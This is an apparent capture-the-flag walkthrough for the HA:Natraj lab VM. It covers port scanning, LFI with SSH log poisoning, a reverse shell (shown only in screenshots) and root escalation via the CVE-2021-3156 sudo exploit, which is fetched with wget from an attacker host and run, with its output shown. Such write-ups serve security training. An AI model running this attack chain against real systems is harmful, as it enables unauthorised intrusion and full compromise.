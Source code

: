 # Ha-Natraj

Let’s find the IP Address first >>

![Untitled](Ha-Natraj/Untitled.png)

```bash
IP : 192.168.249.135
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Ha_natraj]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.135                                                                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-18 08:01 EDT
Nmap scan report for 192.168.249.135
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d99fdaf42e670192d5da7f70d006b392 (RSA)
|   256 bceaf13bfa7c050c929592e9e7d20771 (ECDSA)
|_  256 f0245b7a3bd6b794c44bfe5721f80061 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:F7:80:5D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](Ha-Natraj/Untitled%201.png)

Now lets see the directory traveral files/directories →

```bash
200      GET      183l     1767w    14497c http://192.168.249.135/
301      GET        9l       28w      319c http://192.168.249.135/images => http://192.168.249.135/images/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.249.135/images (Apache)
200      GET      183l     1767w    14497c http://192.168.249.135/index.html
301      GET        9l       28w      320c http://192.168.249.135/console => http://192.168.249.135/console/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.249.135/console (Apache)
```

Let’s look for LFI in `/console/` directory→

![Untitled](Ha-Natraj/Untitled%202.png)

![Untitled](Ha-Natraj/Untitled%203.png)

Now I found a `auth.log` file where I found ssh login logs →

![Untitled](Ha-Natraj/Untitled%204.png)

Now I have to try `ssh poisoning` to get the command execution running →

![Untitled](Ha-Natraj/Untitled%205.png)

Now lets see the response in auth.log file →

![Untitled](Ha-Natraj/Untitled%206.png)

After this lets try command injection through `cmd` →

![Untitled](Ha-Natraj/Untitled%207.png)

Its reverse Shell time →

![Untitled](Ha-Natraj/Untitled%208.png)

Now In response I got the shell →

![Untitled](Ha-Natraj/Untitled%209.png)

Now I found nothing so far , therefore I got to know about sudo version and exploited it →

```bash
www-data@ubuntu:/var/www/html$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Now After recon I found the exploit →

➡️ [https://github.com/worawit/CVE-2021-3156/tree/main](https://github.com/worawit/CVE-2021-3156/tree/main)

![Untitled](Ha-Natraj/Untitled%2010.png)

Now lets copy this exploit into our system →

```bash
www-data@ubuntu:/tmp$ wget http://192.168.249.128:8888/exploit.py
--2023-05-19 00:57:26--  http://192.168.249.128:8888/exploit.py
Connecting to 192.168.249.128:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: 'exploit.py'

exploit.py          100%[===================>]   7.99K  --.-KB/s    in 0s      

2023-05-19 00:57:26 (483 MB/s) - 'exploit.py' saved [8179/8179]

www-data@ubuntu:/tmp$ ls
exploit.py
www-data@ubuntu:/tmp$ python3 exploit.py 192.168.249.135
Traceback (most recent call last):
  File "exploit.py", line 239, in <module>
    extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])
ValueError: invalid literal for int() with base 10: '192.168.249.135'
www-data@ubuntu:/tmp$ python3 exploit.py 192.168.249.128
Traceback (most recent call last):
  File "exploit.py", line 239, in <module>
    extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])
ValueError: invalid literal for int() with base 10: '192.168.249.128'
www-data@ubuntu:/tmp$ python3 exploit.py                
# /bin/bash
root@ubuntu:/tmp# whoami
root
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@ubuntu:/tmp# hostname
ubuntu
root@ubuntu:/tmp# cd ~
root@ubuntu:/root# ls -al
total 24
drwx------  3 root root 4096 Jun  3  2020 .
drwxr-xr-x 22 root root 4096 Jun  3  2020 ..
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jun  3  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 1592 Jun  3  2020 root.txt
root@ubuntu:/root# cat root.txt

███▄▄▄▄      ▄████████     ███        ▄████████    ▄████████      ▄█ 
███▀▀▀██▄   ███    ███ ▀█████████▄   ███    ███   ███    ███     ███ 
███   ███   ███    ███    ▀███▀▀██   ███    ███   ███    ███     ███ 
███   ███   ███    ███     ███   ▀  ▄███▄▄▄▄██▀   ███    ███     ███ 
███   ███ ▀███████████     ███     ▀▀███▀▀▀▀▀   ▀███████████     ███ 
███   ███   ███    ███     ███     ▀███████████   ███    ███     ███ 
███   ███   ███    ███     ███       ███    ███   ███    ███     ███ 
 ▀█   █▀    ███    █▀     ▄████▀     ███    ███   ███    █▀  █▄ ▄███ 
                                     ███    ███              ▀▀▀▀▀▀  

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Geet Madan : https://www.linkedin.com/in/geet-madan/

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
__________________________________
root@ubuntu:/root#
```